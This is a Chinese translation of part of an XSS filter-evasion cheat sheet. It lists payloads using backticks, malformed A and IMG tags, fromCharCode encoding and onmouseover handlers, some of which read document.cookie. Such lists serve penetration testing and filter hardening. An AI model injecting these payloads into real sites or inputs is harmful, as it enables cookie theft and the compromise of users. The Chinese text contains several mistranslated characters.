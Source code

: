 * * *

## 重音符混淆

如果你的 javascript 代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包裹 javascript 代码。它也经常会非常有用因为 xss 过滤代码未考虑到这个字符。

```
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`> 
```

* * *

## 畸形的 A 标签

跳过 href 属性，而直接获取 xss 实质攻击代码...提出被 David Cross ~ 已验证在 chrome 浏览器

```
<a onmouseover="alert(document.cookie)">xxs link</a> 
```

此外，chrome 浏览器喜欢去不全确实的引号为你。如果你遇到阻碍那么直接省略它们吧，chrome 将会正确的帮你不全缺失的引号在 URL 和 script 中。

```
<a onmouseover=alert(document.cookie)>xxs link</a> 
```

* * *

## 畸形的 IMG 标签

最早被 Begeek 发现（可以短小而干净的运行于任何浏览器），这个 xss 向量依靠松散的渲染引擎解析 IMG 标签中被引号包含的字符串来实现。我猜测它最初是为了正确编码而造成的。这将使它更加困难的去解释 HTML 标签。

```
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"> 
```

* * *

## fromCharCode

如果没有任何形式的引号被允许，你可以 eval()一串 fromCharCode 在 javascript 来创建任何你需要的 xss 向量。

```
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))> 
```

* * *

## 默认 SRC 属性去绕过 SRC 域名检测过滤器

这将绕过绝大多数 SRC 域名过滤器。插入 javascript 代码在任何一个事件方法同样适用于热河一个 HTML 标签，例如 Form、Iframe、Input、Embed 等等。他将也允许任何任何该标签的相关事件去替换，例如 onblur, onclick 等，后面我们会附加一个可用的事件列表。由 David Cross 提供，Abdullah Hussam 编辑。

```
<IMG SRC=# onmouseover="alert('xxs')"> 
```
